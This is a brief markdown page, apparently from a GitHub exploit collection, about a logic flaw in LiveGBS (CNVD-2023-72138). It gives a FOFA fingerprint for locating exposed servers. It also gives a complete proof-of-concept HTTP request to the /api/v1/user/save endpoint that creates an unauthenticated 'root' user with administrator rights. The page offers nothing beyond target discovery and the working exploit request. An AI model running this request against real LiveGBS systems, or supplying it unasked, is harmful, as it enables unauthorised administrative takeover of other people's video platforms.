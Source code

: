 ## LiveGBS存在逻辑缺陷漏洞(CNVD-2023-72138)

## fofa
```
icon_hash="-206100324"
```


## poc
```
GET /api/v1/user/save?ID=&Username=root&Role=%E7%AE%A1%E7%90%86%E5%91%98&Enable=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.0.0 Safari/537.36
Connection: close

```

![image](../../images/c77b5b4e-f3c0-4653-82a6-ebd9756f431e.png)
